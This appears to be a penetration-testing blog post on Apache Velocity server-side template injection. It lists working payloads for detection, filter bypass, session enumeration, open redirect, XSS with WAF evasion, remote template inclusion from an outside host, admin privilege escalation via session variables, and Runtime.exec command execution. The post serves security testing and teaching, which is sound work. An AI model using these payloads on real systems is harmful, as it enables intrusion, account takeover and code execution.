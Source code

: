 ```yaml
---
title: "Testing Velocity Server-Side Template Injection"
slug: "Velocity" 
date: 2019-04-18T14:44:53+01:00
tags: ["ssti","velocity","web"]
categories: ["ssti","velocity","web"]
thumbnail: "images/Apache_Velocity_logo.png"
description: "Exploiting the Velocity Template Engine"
draft: false
---
```


Velocity is a Java-based templating engine which executes server-side to craft complex layouts. Although limited in functionality, the fact that it executes server-side opens vectors for abuse if syntax is left in control of an attacker.
This post will provide some commands we encountered useful to identify a Server-Side Template Injection (SSTI) vulnerability, enumerate the available attack surface on the platform and exploitation. The intention is to update it with any new useful command snippets which may assist in understanding security concerns regarding SSTI in velocity.

THE VULNERABILITY
====
When attempting to identify our injection, our payload should either be injected directly into a template file or evaluated programmatically such as the vulnerable snippet below:

```javascript
#evaluate(<PAYLOAD>)
```

If any parameter in control of an attacker can be injected into the Velocity context, several malicious actions can be performed abusing available syntax.

IDENTIFICATION
====

The concept we will use to identify a vulnerable input field is to assign a variable and render it. This can be done as below:

```javascript
#set ($run=1 + 1) $run 
#set( $bar = 'foo' ) $bar
```

These payloads will print **'2'** and **'foo'** respectively in a vulnerable application.

On occasion the ‘#set’ instruction will be blacklisted, which we can circumvent by manipulating the syntax:

```javascript
#{set} ($run=1 + 1) $run
```

ENUMERATION
====

Depending on the platform in use, we may be able to enumerate interesting information.

**ENUMERATE HTTPSESSION SERVER-SIDE VARIABLES**

You can access the user’s session (HTTPSession) via the $session object. The command below will enumerate all server-side session variable names and their values:

```javascript
#foreach ($key in $session.getAttributeNames()) $key:$session.getAttribute($key) #end
```

Attributes can also be obtained with the below syntax:
```javascript
$request.getSession().getAttribute($key)  $request.session.getAttribute($key)
```

**IDENTIFY THE PLATFORM AND ENUMERATE FURTHER**

Accessible methods and objects may change depending on the version of Velocity in use. Developers implementing a solution using Velocity may implement additional methods interesting for an attacker. Be sure to consult any publicly available documentation to see if there are any additional methods available for the platform you are testing.

EXPLOITATION
====

Identification of server-side template injection can lead to several exploitation scenarios.

**OPEN REDIRECTION**

The server’s response (HttpServletResponse) is also available in all contexts. This will allow us to send a server-side redirection (302 response) to our victim and coerce them to browse a web application in the attackers control. This can be done as shown below:

```javascript
$response.sendRedirect("https://DOMAIN")
```

**CROSS-SITE SCRIPTING**

Being able to render any content we want will allow us to also abuse this to perform client-side attacks via Cross-Site Scripting. Creating a proof of concept for this is trivial:

```javascript
#set($xss = '<script>alert(1);</script>') $xss
```

The interesting part where Velocity can assist us is in circumventing web application firewalls or any blacklist filtering approach. The possibilities are endless, but as an example we could do something as follows:

```javascript
#set($run = ['<','s','c','r','i','p','t','>','alert(1);','<','/','s','c','r','i','p','t','>']) #foreach($key in $run)$key#end
```

The above only creates a long array of strings, which we will then concatenate and render on the application.
REMOTE FILE INCLUDE
If we have a restricted input length or wish to remotely manage our injected payload, we can include and execute a remote file including Velocity code by issuing the following command:

```javascript
#evaluate($import.read('http://DOMAIN'))
```

This technique could also be extrapolated to enumerate internal services adjacent to the affected server by attempting to connect via HTTP. The errors or delays provided by the templating engine will show whether a service is open or closed.

**PRIVILEGE ESCALATION**

This is an example scenario where manipulation of server-side HTTP Session variables could lead to privilege escalation. This was discovered on a product and allowed complete takeover of the affected platform.

In this example, we have identified a server-side variable called ‘IS_ADMIN’, set to 0 for our unprivileged user. Using Velocity, we can set that variable to anything we want to gain administrative privileges on the application.
In this sample payload, we will set the ‘IS_ADMIN’ variable to ‘1’, in order to grant our user administrative privileges. To ensure our server-side variable is used by our user, we will immediately perform a server-side redirect to the admin portal:

```javascript
$session.setAttribute("IS_ADMIN","1") $response.sendRedirect("https://DOMAIN/adminPortal")
```

**REMOTE CODE EXECUTION**

Velocity allows you to interface with underlying Java in order to execute code. This has been documented previously [1] and could allow an attacker to compromise the underlying infrastructure.

```javascript
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```

REFERENCES
----
[1] Server-Side Template Injection: RCE for the modern web app https://www.blackhat.com/docs/us-15/materials/us-15-Kettle-Server-Side-Template-Injection-RCE-For-The-Modern-Web-App-wp.pdf

[2] The Apache Velocity User Guide http://velocity.apache.org/engine/1.7/user-guide.html